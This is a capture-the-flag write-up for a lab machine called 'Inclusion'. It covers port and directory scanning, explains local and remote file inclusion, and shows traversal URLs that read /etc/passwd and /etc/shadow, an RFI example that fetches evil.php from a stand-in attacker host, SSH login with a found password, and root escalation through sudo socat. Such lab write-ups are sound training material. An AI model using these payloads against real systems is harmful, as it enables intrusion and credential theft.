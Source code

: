 # INCLUSION

##### Written: 17/05/2021

##### IP Address: 10.10.16.93

<br>

First, let's run a basic **nmap** scan on the target machine with standard scripts loaded and version enumeration configured. 

```
sudo nmap -sC -sV -vv 10.10.16.93
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

As we can see, there are two services running on the target machine: **SSH** and **HTTP**. For the HTTP server, we can see that the http-title is **'My blog'**.

Let's first check out the HTTP webserver. Navigating to the website in our web browser, we come to this webpage:

<img style="float: left;" src="screenshots/screenshot2.png">

Before conducting our happy-path enumeration, we can start a **Gobuster** directory scan to see if we can obtain any hidden directories.

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

We make sure to include common extensions in our enumeration, such as **.php** and **.js**. We will also use Dirbuster's directory-list-2.3-medium.txt as the wordlist.

While the scan is going on, let's explore the website. First I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried some low-hanging fruit such as visiting **/robots.txt** but those did not result in anything of value.

When I typed something into the search bar on the top right of the webpage and pressed search, I was redirected back to the homepage. Since this CTF room is called 'Inclusion', will I have to carry out some form of **Local File Inclusion attack** using this search field?

At the bottom of the web page, there were three sections dedicated to different paragraphs of text. Looks like they taught us more about Local File Inclusion (LFI) and Remote File Inclusion (RFI) attacks! This will be useful as I currently have no idea what those attacks are. Clicking on the 'View Details' button below the sections brought me to pages with just text in them. I checked the source code for each of these dedicated pages but there was nothing of value.

Time to learn more about LFI and RFI attacks.

<br>

### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input **'module'** and the value to be the file **'contact.php'**. Of course, it would seem that contact.php is in the same directory as the calling file, and hence the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local **/etc/shadow** file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a .php script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded. The web server will then execute the script:

```
https://example.com/?module=../../../uploads/malicious.php
```

<br>

### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a url to another web server (controlled by the attacker) to execute malicious code that is hosted on that web server. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```

<br>

Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practiced file inclusion, which means that I could attempt to mount an attack there!

<img style="float: left;" src="screenshots/screenshot4.png">

It seemed that the web server was taking in an input **'name'** and the filename that produced the wall of text shown on the page was called **'hacking'**.

I'll try to change **'hacking'** to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.

<img style="float: left;" src="screenshots/screenshot5.png">

The attack worked! The contents of the **/etc/passwd** file is displayed by the web server. Next, I'll try if I can read the **/etc/shadow** file. If I can do so, I'll be able to obtain the credentials of users on the machine, such as root.

<img style="float: left;" src="screenshots/screenshot6.png">

Sure enough, I could read the **/etc/shadow** file, which is great. From the file, I can see that there is a user account called **FalconFeast**. At first, I was going to use **John the Ripper** to crack the password of FalconFeast using the hashed password found in the /etc/shadow file. However, looking closer at the /etc/passwd file, I noticed a comment in the file:

 <img style="float: left;" src="screenshots/screenshot7.png">

On the right, we can see the text **'falconfeast:rootpassword'** Could **'rootpassword'** be the password for falconfeast? To test this, I tried to ssh into falconfeast's account using the password:

<img style="float: left;" src="screenshots/screenshot8.png">

Nice, that was his password after all. 

**With that, I was able to log into falconfeast's account and obtain the user flag from his home directory.**

---

Since I'm already in the machine, I could try to escalate my privileges from the inside. Before using a privilege escalation automation script like **linpeas**, I first did some manual enumeration first. 

First, I ran the command

```
sudo -l
```

to see what sudo privileges that falconfeast had.

<img style="float: left;" src="screenshots/screenshot9.png">

Looks like he can run **socat** as root! Next, I went to **GTFOBins** to see if there were any vulnerabilities that I could exploit with this binary.

After looking through GTFOBins, I decided to use socat to spawn a shell as root

<img style="float: left;" src="screenshots/screenshot10.png">

After running the command above, I managed to spawn a shell as root:

<img style="float: left;" src="screenshots/screenshot11.png">

**With that, I can easily navigate towards root's home directory and obtain the root flag**

